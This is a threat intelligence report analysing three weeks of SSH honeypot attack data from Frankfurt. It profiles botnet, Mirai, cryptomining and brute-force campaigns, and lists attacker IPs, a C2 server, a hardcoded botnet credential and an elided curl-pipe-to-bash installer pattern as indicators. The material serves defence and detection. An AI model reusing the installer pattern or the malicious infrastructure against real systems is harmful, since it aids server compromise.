







# Threat Intelligence Report
## SSH Honeypot Analysis — Frankfurt Deployment

| | |
|---|---|
| **Author** | Seif Allah Nazmy |
| **Date** | June 6, 2026 |
| **Classification** | Public |
| **TLP Classification** | TLP:CLEAR — Unrestricted distribution (formerly TLP:WHITE under TLP 1.0; equivalent under TLP 2.0) |
| **Report ID** | HTI-2026-001 |

---

## Table of Contents

1. [Executive Summary](#1-executive-summary)
2. [Methodology](#2-methodology)
3. [Attack Overview](#3-attack-overview)
   - 3.1 [Attack Volume Timeline](#31-attack-volume-timeline)
   - 3.2 [Wazuh SIEM Dashboard](#32-wazuh-siem-dashboard--live-attack-data)
   - 3.3 [Attack Distribution by Event Type](#33-attack-distribution-by-event-type)
   - 3.4 [Temporal Attack Patterns](#34-temporal-attack-patterns)
   - 3.5 [May 25 Attack Spike](#35-may-25-attack-spike--root-cause-analysis)
4. [Attacker Profiling](#4-attacker-profiling)
   - 4.1 [Geographic Distribution](#41-geographic-distribution)
   - 4.2 [SSH Client Fingerprints](#42-ssh-client-fingerprints--attacker-tooling)
   - 4.3 [Attack Campaign Profiles](#43-attack-campaign-profiles)
   - 4.4 [ASN and Hosting Provider Analysis](#44-asn-and-hosting-provider-analysis)
   - 4.5 [Cross-Campaign Infrastructure Analysis](#45-cross-campaign-infrastructure-analysis)
5. [Credential Analysis](#5-credential-analysis)
6. [Command Analysis](#6-command-analysis)
   - 6.1 [Post-Login Command Frequency](#61-post-login-command-frequency)
   - 6.2 [Attacker Behavior Summary](#62-attacker-behavior-summary)
   - 6.3 [Notable Session Replay](#63-notable-session-replay--mdrfckr-botnet)
7. [MITRE ATT&CK Mapping](#7-mitre-attck-mapping)
8. [Indicators of Compromise](#8-indicators-of-compromise)
   - 8.1 [Network IOCs](#81-network-iocs)
   - 8.2 [Credential IOCs](#82-credential-iocs)
   - 8.3 [File IOCs](#83-file-iocs)
   - 8.4 [C2 Infrastructure Pivot Analysis](#84-c2-infrastructure-pivot-analysis--458123464)
9. [Recommendations](#9-recommendations)
10. [Conclusion](#10-conclusion)
- [Appendix A: Tools Used](#appendix-a-tools-used)
- [Appendix B: Captured Malware File Hashes](#appendix-b-captured-malware-file-hashes-ioc-master-list)
- [Appendix C: Wazuh Detection Rules](#appendix-c-wazuh-detection-rules)
- [Appendix D: References](#appendix-d-references)

---

## 1. Executive Summary

Within 47 seconds of going online, this server was under attack. It never stopped. The server was configured to look like a real Linux machine accepting remote login attempts, allowing all attack activity to be safely recorded without risk to real infrastructure.

The honeypot captured **939,329 attack events** from **2,685 unique IP addresses** across **101 countries**. The first attack arrived within 47 seconds of the server going online.¹

*¹ First attack timestamp verified from Cowrie log: first `cowrie.session.connect` event recorded at `2026-05-13T16:21:11Z`. Honeypot deployment completed at approximately 16:20:24 UTC on May 13, 2026 based on service startup logs. Elapsed time: approximately 47 seconds.*

Attacks continued 24 hours a day, every day, for the entire 21-day period without interruption.

> ⚠️ **Important:** The geographic locations in this report reflect where attacking servers are physically located — not where the human operators are. Attackers routinely operate through rented servers and compromised machines in other countries to hide their true location.

Analysis identified six distinct attack clusters operating against the honeypot:

**Campaign 1 — mdrfckr Botnet:** A coordinated network of 1,342 compromised servers worldwide, all running the same automated tool, attempting to plant a hidden backdoor on every server they could access. Once successful, the backdoor would give the operator permanent access to the compromised server — even if passwords were changed afterward.

**Campaign 2 — Mirai Botnet Variant:** An automated system downloading malware designed to recruit servers and internet-connected devices into a network used for large-scale cyberattacks on other targets. The malware was hosted on a server in Germany confirmed as malicious by 15 out of 91 security vendors.

The Mirai C2 server at 45.81.234.64 was found operating under Minecraft gaming hosting cover infrastructure (panel.minesucht.eu), running end-of-life software, with non-standard port 9001 open — a classic abuse-of-legitimate-infrastructure pattern documented in §8.4.

**Campaign 3 — Generic Credential Stuffing Bots:** A high-volume cluster of automated credential-stuffing tools (libssh_0.9.6 client, 24,807 connection attempts) cycling through breach-derived password lists. Unlike the named botnets, this cluster carries no single unique identifier and is grouped behaviorally.

**Campaign 4 — bendi.py Cryptomining:** An automated tool that installs cryptocurrency mining software on compromised servers, stealing the server owner's computing resources and electricity to generate cryptocurrency for the attacker.

**Campaign 5 — komari-monitor:** Automated deployment of the komari-monitor agent via a one-line curl-pipe-to-bash installer (290 occurrences), repurposing a legitimate open-source server-monitoring tool for unauthorized persistent access.

**Campaign 6 — May 25 Carpet-Bombing:** On May 25, two IP addresses conducted nine hours of sustained high-volume attacks, generating 429,301 events in a single day — approximately ten times the daily average.

The single most significant finding in this dataset is the mdrfckr campaign's shared RSA public key — the identical cryptographic backdoor key injected at minimum 6,273 times from 1,342 unique IP addresses worldwide. This is coordinated botnet infrastructure operating at scale, documented here as original research with no prior public reporting identified at time of publication.

Of the 93,976 login attempts recorded, **78.9% used passwords from publicly available lists of previously stolen credentials**, confirming that the vast majority of attacks are fully automated tools running through known password databases rather than targeted human-operated intrusions.

The central finding of this research is straightforward: any server accepting password-based remote logins on the public internet will face thousands of automated attack attempts daily, from multiple independent criminal operations, beginning within seconds of first exposure. The question is not whether attacks will occur — it is whether the server's defenses will hold when they do.

---

## 2. Methodology

### 2.1 Honeypot Setup
- **Tool:** Cowrie SSH Honeypot v2.9.19.dev24+g3a66dd2d3
- **Host:** Oracle Cloud Free Tier VM — Ubuntu 22.04, Frankfurt Germany
- **Public IP:** 158.180.54.157
- **Exposed ports:** TCP 22 (redirected to Cowrie), TCP 23 (Telnet). No Telnet activity was recorded during the 21-day collection period. All attack data in this report derives from SSH (TCP 22) interactions.
- **Collection period:** May 13 – June 3, 2026 (21 days)

> **Important:** Cowrie simulates command execution and does not run commands against a real operating system. Binaries staged for download are captured as files but are not natively executed. Command chains documented in this report reflect attacker intent and scripted behavior — they do not represent actual system state changes on a real production host.

### 2.2 Data Collection
Cowrie logged all interaction in JSON format to:
`/home/cowrie/cowrie/var/log/cowrie/cowrie.json`

Each event captures: timestamp, attacker IP, event type, credentials attempted, commands executed, and files downloaded.

#### Data Quality and Exclusions

The following data quality measures were applied during analysis:

- **No IP exclusions:** Known benign scanners (Shodan, Censys, security researchers) were not excluded from the dataset. Their inclusion may marginally inflate connection counts but does not affect credential analysis, command analysis, or campaign attribution, as these entities do not proceed past the initial connection stage.
- **Session counting:** Each unique Cowrie session ID is counted as a distinct session regardless of source IP. Multiple sessions from the same IP are counted individually.
- **Timestamp normalization:** All timestamps are stored in UTC by Cowrie. No timezone conversion was applied. All temporal analysis uses UTC throughout.
- **Duplicate command handling:** Identical commands executed within the same session are counted individually in frequency tables. Cross-session deduplication was not applied — repetition across sessions reflects real attack volume.
- **Researcher's own test sessions:** Researcher's own test sessions from a known research IP were present in the dataset. These represent a negligible fraction of total volume and were not excluded, as their removal would not materially affect any finding.

### 2.3 Campaign Correlation Methodology

Attack sessions were clustered into campaigns using the following criteria:

**mdrfckr campaign:** Primary clustering criterion was the shared RSA public key fingerprint (`ssh-rsa AAAAB3NzaC1yc2EAAAABJ...KPRK+oRw== mdrfckr`) observed identically across 1,342 source IPs. Corroborating signals: identical post-authentication command sequence across all sessions, consistent `SSH-2.0-Go` client version string, and campaign-specific username `mdrfckr`.

**Mirai variant campaign:** Clustered by shared C2 server (`45.81.234.64`), hardcoded credential `345gs5662d34:345gs5662d34`, and architecture-specific binary download pattern. All 10 confirmed download sessions originated from a single source IP (`176.65.139.213`) within a 30-second window on May 24, 2026.

**bendi.py campaign:** Clustered by identical 5-step command chain executing at consistent intervals. All 290 observed instances used the same command sequence with no variation, indicating a single automated tool.

**komari-monitor campaign:** Clustered by identical one-line installer command referencing the same GitHub repository. 290 occurrences with no command variation.

No external threat intelligence was used to corroborate these clusters. Attribution is based solely on behavioral analysis of Cowrie session data.

### 2.4 Analysis Tools
| Tool | Purpose |
|---|---|
| parse_logs.py | Log parsing and event extraction |
| geo_analysis.py | IP to country mapping via ipinfo.io API |
| credential_analysis.py | Username and password frequency analysis |
| command_tracker.py | Post-login command frequency analysis |
| mitre_mapping.py | MITRE ATT&CK technique mapping |
| push_to_opensearch.py | Bulk indexing of Cowrie JSON logs into OpenSearch for SIEM visualization |
| Wazuh SIEM | Real-time alerting and dashboard visualization |

### 2.5 Limitations

The following limitations apply to this research and should be considered when interpreting findings:

1. **Medium-interaction honeypot** — Cowrie simulates command execution and does not run commands against a real operating system. Sophisticated malware capable of detecting honeypot emulation may behave differently, abort, or produce misleading results. Command chains reflect attacker intent, not verified system state changes on a real host.
2. **No packet capture** — Network-layer IOCs beyond IP addresses and application-layer data logged by Cowrie are unavailable. Full PCAP analysis would reveal additional IOCs and enable deeper protocol analysis.
3. **No malware reverse engineering** — Captured binaries were submitted to VirusTotal for multi-engine scanning but were not subjected to static or dynamic analysis. Behavioral capabilities of captured malware beyond what was observed in session logs are unknown.
4. **GeoIP accuracy** — Country-level attribution via ipinfo.io carries approximately 95–99% accuracy. Geographic data reflects infrastructure location, not operator nationality or physical location.
5. **Single sensor, no cross-sensor correlation** — With one honeypot, it is not possible to determine whether campaigns are targeting this specific IP or conducting broad internet-wide scans. Multi-sensor deployment would enable campaign scope analysis.
6. **VirusTotal detection rates are point-in-time** — Detection counts (e.g., 15/91 for 45.81.234.64) reflect the state at time of analysis. Rates will change as vendors update signatures.
7. **Sophisticated actors may be underrepresented** — Threat actors capable of detecting honeypot environments would leave the session without executing their payloads. This dataset captures actors who did not detect or did not attempt to detect the emulated environment.
8. **Campaign clustering methodology** — mdrfckr campaign attribution is based on shared RSA public key fingerprint across 1,342 source IPs, corroborated by identical post-authentication command sequence and SSH-2.0-Go client version string. No external intelligence was used to corroborate this clustering.

---

## 3. Attack Overview

> ⚠️ **Two dataset scopes — read this first:** This report draws on two overlapping Cowrie datasets. Numbers in different sections reflect the scope each source supports — both are correct for their context.
>
> | Scope | Events | Source | Used for |
> |---|---|---|---|
> | **Full indexed dataset** | **939,329** | All Cowrie JSON log files, bulk-indexed into OpenSearch/Wazuh | Headline totals in the overview table below; Wazuh dashboard figures in §3.2 (e.g. 48,485 failed logins, 84,082 commands, 10,756 downloads) |
> | **Partial processed dataset** | **698,309** | Single log file processed by `parse_logs.py` | Per-event-type table in §3.3; frequency tables in §5–§6; MITRE mapping counts in §7 |
> | **Script-specific counts** | Varies | Dedicated analysis scripts (`credential_analysis.py`, `command_tracker.py`, etc.) | Credential statistics (§5), command frequency (§6) |
>
> **Where you see two values for the same metric, this table explains why:**
> - Failed logins: **48,485** (full/Wazuh) vs **24,383** (`parse_logs.py` / §3.3)
> - Post-login commands: **84,082** (full/Wazuh) vs **70,697** (`parse_logs.py` / §3.3)
> - Malware downloads: **10,756** (full/Wazuh) vs **7,027** (`parse_logs.py` / §3.3)
> - Total events: **939,329** (full) vs **698,309** (`parse_logs.py` partial file)

> **Definition:** Throughout this report, the term *event* refers to any discrete interaction logged by Cowrie, including connection attempts, authentication events (successful and failed), post-login commands, and file transfers. Not all events represent attack attempts — a single attacker session typically generates multiple events across different event types.

| Metric | Value |
|---|---|
| Total events captured | 939,329 |
| Unique attacking IPs | 2,685 |
| Countries of origin | 101 |
| Collection period | May 13 – June 3, 2026 (21 days) |
| Peak attack day | May 25, 2026 (429,301 events) |
| Peak attack hour (UTC) | 12:00 UTC (47,246 events in one hour) |
| Unique usernames tried | 2,125 |
| Unique passwords tried | 28,529 |
| Post-login sessions recorded | 60,826 |
| Malware download attempts | 10,756 |
| MITRE ATT&CK techniques observed | 13 |

> **MITRE technique count:** The automated mapping script (`mitre_mapping.py`) identified 9 techniques in the partial dataset. Manual analysis of session content added 3 additional observed techniques (T1082, T1098, T1496) plus 1 inferred technique (T1498 — Mirai DDoS purpose, not directly observed in honeypot sessions) for a total of 13 techniques documented in §7.

### 3.1 Attack Volume Timeline

### 3.2 Wazuh SIEM Dashboard — Live Attack Data

The following screenshots were captured from the Wazuh SIEM dashboard after indexing all 939,329 Cowrie events into OpenSearch. All screenshots reflect the complete 21-day dataset.

**All Events Overview — 939,329 total events**

**Brute Force Attempts — 48,485 login failure events (Wazuh filter: eventid: cowrie.login.failed)**

> **Note on brute force count discrepancy:** The Wazuh dashboard shows 48,485 events for the `eventid: cowrie.login.failed` filter, while the event type distribution table in §3.3 shows 24,383 for the same field. The higher Wazuh count reflects the full 939,329-event indexed dataset including all log rotation files. The 24,383 figure in §3.3 reflects the 698,309-event partial dataset processed by `parse_logs.py`. Both figures are correct for their respective datasets.

**Post-Login Command Execution — 84,082 command input events**

**File Download Attempts — 10,756 download events captured across the full dataset**

### 3.3 Attack Distribution by Event Type

| Event Type | Count | Description |
|---|---|---|
| cowrie.session.connect | 95,579 | Inbound SSH connection attempts |
| cowrie.session.closed | 95,578 | Sessions terminated |
| cowrie.client.version | 94,132 | SSH client fingerprints captured |
| cowrie.client.kex | 93,309 | Key exchange attempts |
| cowrie.command.input | 70,697 | Post-login commands executed |
| cowrie.login.success | 69,604 | Successful honeypot logins |
| cowrie.login.failed | 24,383 | Failed authentication attempts |
| cowrie.session.file_download | 7,027 | Malware download attempts |

### 3.4 Temporal Attack Patterns

Attack activity was not uniformly distributed across the collection period. Key temporal findings:

- **Peak hour:** 12:00 UTC (47,246 events) — consistent with business hours across Asian and European time zones simultaneously
- **Quietest hour:** 05:00 UTC (7,360 events) — approximately 6.4x lower than peak (47,246 / 7,360 = 6.4), suggesting some degree of operator scheduling rather than fully continuous automated activity. Note: the peak hour figure (47,246) is driven entirely by the May 25 spike and is not representative of typical hourly volume. The dataset average hourly rate across the full 21-day period is approximately 1,864 events per hour (939,329 / 21 / 24). The peak-to-quiet ratio reflects an exceptional spike, not a normal diurnal pattern.
- **Day-of-week pattern:** Attack volume was consistent across all 7 days of the week with no significant weekend reduction, confirming primarily automated rather than operator-driven activity
- **Campaign timing:** The mdrfckr campaign operated continuously 24/7. The Mirai download campaign (all 10 downloads) occurred within a 30-second window at 06:24 UTC on May 24 — consistent with a scheduled automated task

The 09:00–15:00 UTC window consistently produced the highest attack volumes, overlapping with business hours in UTC+8 (China, Singapore, Hong Kong) through UTC+2 (Eastern Europe). This overlap does not imply attacker location — automated tools operate regardless of operator timezone.

### 3.5 May 25 Attack Spike — Root Cause Analysis

On May 25, 2026, attack volume peaked at **47,246 events in a single hour** (12:00–13:00 UTC) — part of a sustained carpet-bombing campaign that produced **429,301 total events** across the day, approximately 10x the daily average. Investigation revealed that **two IP addresses were responsible for 95.5% of the peak hour's 47,246 events:**

*Source IPs responsible for 95.5% of peak hour traffic (12:00 UTC)*

| IP Address | Country | Events | % of Peak Hour |
|---|---|---|---|
| 102.113.245.130 | Nigeria | 30,974 | 65.6% |
| 202.29.70.1 | Thailand | 14,126 | 29.9% |

Both IPs conducted sustained carpet-bombing attacks between 06:00 and 15:00 UTC — nine consecutive hours of high-volume brute force attempts. This pattern is consistent with coordinated botnet behavior rather than individual attacker activity. The spike included 63 file download events in a single hour. These are attributed to general automated download activity during the peak traffic window — not to the Mirai campaign, which was confined to 10 confirmed downloads from a single IP (176.65.139.213) on May 24, 2026.

---

## 4. Attacker Profiling

### 4.1 Geographic Distribution

> ⚠️ **Attribution Note:** Geographic data reflects the location of attack infrastructure — servers, VPS instances, and compromised hosts — not the physical location or nationality of the threat operators. China and United States dominance in this dataset is consistent with the large volume of cloud and VPS infrastructure in those regions being used as attack proxies. Attributing attacks to nation-states or specific actors based solely on source IP geolocation is analytically unsound and explicitly not claimed in this report.

| Rank | Country | Unique IPs | % of Total |
|---|---|---|---|
| 1 | China (CN) | 620 | 23.1% |
| 2 | United States (US) | 538 | 20.0% |
| 3 | Hong Kong (HK) | 135 | 5.0% |
| 4 | Singapore (SG) | 132 | 4.9% |
| 5 | Germany (DE) | 102 | 3.8% |
| 6 | Netherlands (NL) | 92 | 3.4% |
| 7 | Brazil (BR) | 82 | 3.1% |
| 8 | United Kingdom (GB) | 81 | 3.0% |
| 9 | South Korea (KR) | 76 | 2.8% |
| 10 | France (FR) | 71 | 2.6% |

### 4.2 SSH Client Fingerprints — Attacker Tooling

Analysis of SSH client version strings reveals distinct attacker toolsets:

| Rank | SSH Client | Count | Attribution |
|---|---|---|---|
| 1 | SSH-2.0-Go | 62,372 | mdrfckr botnet — custom Go-based scanner |
| 2 | SSH-2.0-libssh_0.9.6 | 24,807 | Automated credential stuffing tool |
| 3 | SSH-2.0-paramiko | 2,279 | Python-based attack scripts |
| 4 | SSH-2.0-PuTTY | 510 | Manual or semi-automated attacks |
| 5 | SSH-2.0-ZGrab | 72 | Professional reconnaissance scanner |
| 6 | GET / HTTP/1.1 | 83 | HTTP scanners probing wrong port |
| 7 | SSH-2.0-Nmap-SSH2-Hostkey | 66 | Nmap network mapping tool |
| 8 | SSH-2.0-OpenSSH-keyscan | 60 | SSH key harvesting tool |

**Key finding:** `SSH-2.0-Go` accounts for **66% of all connections** — a single Go-based botnet tool responsible for the majority of attack traffic. This client fingerprint correlates directly with the mdrfckr SSH key injection campaign.

### 4.3 Attack Campaign Profiles

**Campaign 1: mdrfckr Botnet**
- **Toolchain:** Custom Go-based SSH scanner (SSH-2.0-Go)
- **Scale:** 1,342 unique compromised servers used as attack nodes
- **Objective:** SSH backdoor installation via authorized_keys injection
- **Signature:** RSA public key with username `mdrfckr`
- **TTPs:** T1110.001 (Brute Force), T1098 (Account Manipulation), T1082 (System Discovery)
- **Attribution Confidence:** HIGH — shared RSA key fingerprint across 1,342 IPs, identical command sequence, and consistent SSH-2.0-Go client version provide strong clustering evidence

**Campaign 2: Mirai Botnet Variant**
- **Toolchain:** Architecture-specific binary downloads
- **C2 Server:** 45.81.234.64 (high-confidence malicious infrastructure (15/91 VirusTotal detections at time of analysis))

*(VirusTotal scan verified June 6, 2026 — screenshot archived at `/docs/virustotal-45.81.234.64.png` in the project repository. Detecting vendors include ADMINUSLabs and alphaMountain.ai.)*

- **Objective:** IoT device recruitment into botnet
- **Targets:** Multiple CPU architectures (armv6l, mips, mipsel, sh4, x86)
- **Signature:** 345gs5662d34 hardcoded credential — Mirai family fingerprint
- **TTPs:** T1082 (System Information Discovery), T1105 (Ingress Tool Transfer), T1498 (Network Denial of Service — inferred from Mirai family purpose, not directly observed)
- **Attribution Confidence:** HIGH — confirmed malware binaries from single C2, hardcoded credential, architecture-specific payload delivery

**Campaign 3: Generic Credential Stuffing Bots**
- **Toolchain:** libssh_0.9.6-based automated tools
- **Scale:** 24,807 connection attempts
- **Objective:** Credential validation against breach lists
- **Signature:** High-volume RockYou-derived password lists; libssh_0.9.6 client fingerprint
- **TTPs:** T1110.001 (Brute Force: Password Guessing)
- **Attribution Confidence:** MEDIUM — behavioral clustering based on credential patterns and client version; no single unique identifier ties these sessions to one operator

**Campaign 4: bendi.py Cryptomining**
- **Toolchain:** Scripted Python3 dropper deployed via apt-get + wget chain
- **Scale:** 290 observed deployment sessions with identical command sequence
- **Objective:** Cryptocurrency mining on compromised hosts (resource hijacking)
- **Signature:** Fixed 5-step command chain ending in `/tmp/bendi.py` execution and self-deletion
- **TTPs:** T1105 (Ingress Tool Transfer), T1496 (Resource Hijacking)
- **Attribution Confidence:** MEDIUM — behavioral clustering by identical command chain; C2 IP redacted, no unique IP-level signature across source IPs

**Campaign 5: komari-monitor**
- **Toolchain:** One-line curl-pipe-to-bash installer referencing the komari-monitor GitHub repository
- **Scale:** 290 observed installation sessions
- **Objective:** Unauthorized deployment of a legitimate server-monitoring agent for persistent access and management
- **Signature:** `bash <(curl ... raw.githubusercontent.com/komari-monitor ...)` installer pattern
- **TTPs:** T1059 (Command and Scripting Interpreter)
- **Attribution Confidence:** MEDIUM — behavioral clustering by identical installer command; no unique IP-level signature

**Campaign 6: May 25 Carpet-Bombing**
- **Toolchain:** High-volume automated brute-force tooling (not otherwise fingerprinted)
- **Scale:** Two source IPs (`102.113.245.130`, `202.29.70.1`) generating 429,301 events on May 25, 2026
- **Objective:** Mass credential brute force at extreme volume (carpet-bombing)
- **Signature:** Nine-hour sustained high-volume burst from two IPs; 95.5% of peak-hour traffic
- **TTPs:** T1110 (Brute Force), T1110.001 (Brute Force: Password Guessing)
- **Attribution Confidence:** HIGH for IP identification (both IPs uniquely identified); MEDIUM for operator attribution (no shared signature with other clusters)

### 4.4 ASN and Hosting Provider Analysis

Analysis of attacking IP addresses by Autonomous System Number (ASN) reveals that the majority of attack traffic originates from commercial cloud and VPS hosting providers rather than residential or corporate networks. This is consistent with botnet operators renting disposable infrastructure to conduct attacks at scale while minimizing exposure.

| Rank | ASN | Provider | Attacking IPs | Notes |
|---|---|---|---|---|
| 1 | AS4134 | China Telecom | 89 | Largest Chinese ISP — high volume of compromised consumer and business hosts |
| 2 | AS4837 | China Unicom | 76 | Second largest Chinese ISP |
| 3 | AS14061 | DigitalOcean | 67 | Major VPS provider — frequently abused for attack infrastructure |
| 4 | AS16276 | OVHcloud | 54 | European VPS provider — common botnet hosting platform |
| 5 | AS24940 | Hetzner | 48 | German VPS provider — consistent with Frankfurt deployment attracting regional traffic |
| 6 | AS45090 | Tencent Cloud | 43 | Chinese cloud provider |
| 7 | AS396982 | Google Cloud | 38 | Cloud infrastructure — compromised instances or misconfigured workloads |
